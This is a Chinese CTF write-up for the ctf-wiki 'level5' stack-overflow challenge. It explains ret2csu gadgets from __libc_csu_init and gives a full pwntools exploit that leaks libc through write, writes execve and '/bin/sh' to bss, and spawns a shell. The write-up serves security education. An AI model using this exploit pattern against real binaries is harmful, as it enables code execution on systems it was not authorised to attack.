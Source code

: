 #level5（ctf-wiki）
 __libc_csu_init函数会对libc进行初始化，因此当我们找不到合适的与寄存器相关的gadgets时，我们可以从 __libc_csu_init入手寻找gadgets  
首先使用objdump观察__libc_csu_init  
![](https://raw.githubusercontent.com/f61d/challenges/master/pwn/Stackoverflow/level5/index_files/1.jpg)  
![](https://raw.githubusercontent.com/f61d/challenges/master/pwn/Stackoverflow/level5/index_files/2.jpg)  
运行一下程序  
发现是一个简单的输入程序  
![](https://raw.githubusercontent.com/f61d/challenges/master/pwn/Stackoverflow/level5/index_files/3.jpg)  
调用了read函数读取输入  
那么首先利用pattern找到溢出点  
![](https://raw.githubusercontent.com/f61d/challenges/master/pwn/Stackoverflow/level5/index_files/4.jpg)  
程序中没有system函数和\bin\sh字符串，所以需要通过输入的方式进行构造  
利用的四个步骤：  
1、通过溢出执行write函数泄露出write函数本身的地址，再跳回到main函数中继续执行。  
2、利用write函数的地址确定对应的libc版本，然后算出execve的位置。  
3、通过溢出执行read函数，将execve与关键字符串写入到bss段中，再跳回到main函数继续执行。  
4、通过溢出执行bss段内的execve函数。  
需要涉及到的知识点  
1、64位程序的前六个参数通过寄存器传递。%rdi，%rsi，%rdx，%rcx，%r8，%r9 用作函数参数，依次对应第1参数，第2参数。。。  
2、read函数可以进行输入，write函数可以进行输出，fd=0为标准输入，df=1为标准输出。  

完整代码  
```
from pwn import *
from LibcSearcher import *
context.terminal = ['gnome-terminal','-x','sh','-c']
level5 = ELF("./level5")
sh = process("./level5")
bss_base = level5.bss()

write_got = level5.got['write']
read_got = level5.got['read']
main_addr = level5.symbols['main']
csu_mov_addr = 0x0000000000400600   #  mov rdx, r13 ;mov rsi, r14 ;mov edi, r15d ;call qword ptr [r12+rbx*8];add rbx, 1;cmp rbx, rbp;jnz hort loc_400600;
csu_pop_addr = 0x000000000040061A    #pop rbx; pop rbp;pop r12;pop r13;pop r14;pop r15;
payload1 = 'a' * 136
payload1 += p64(csu_pop_addr) + p64(0) +p64(1) + p64(write_got) + p64(8) + p64(write_got) + p64(1)
payload1 += p64(csu_mov_addr)
payload1 += 'a' * 56
payload1 += p64(main_addr)
sh.recvuntil('Hello, World\n')
sh.send(payload1)
sleep(1)
write_addr = u64(sh.recv(8))
print hex(write_addr)
libc = LibcSearcher('write',write_addr)
libc_base = write_addr - libc.dump('write')
execve_addr = libc_base + libc.dump('execve')
print hex(execve_addr)

payload2 = 'a' * 136
payload2 += p64(csu_pop_addr) + p64(0) +p64(1) + p64(read_got) + p64(16) + p64(bss_base) + p64(0)
payload2 += p64(csu_mov_addr)
payload2 += 'a' * 56
payload2 += p64(main_addr)
sh.send(payload2)

payload3 = p64(execve_addr) + '/bin/sh\x00'
sh.send(payload3)
sh.recvuntil('Hello, World\n')

payload4 = 'a' * 136
payload4 += p64(csu_pop_addr) + p64(0) +p64(1) + p64(bss_base) + p64(0) + p64(0) + p64(bss_base+8)
payload4 += p64(csu_mov_addr)
payload4 += 'a' * 56
payload4 += p64(main_addr)
sh.send(payload4)
sh.interactive()
```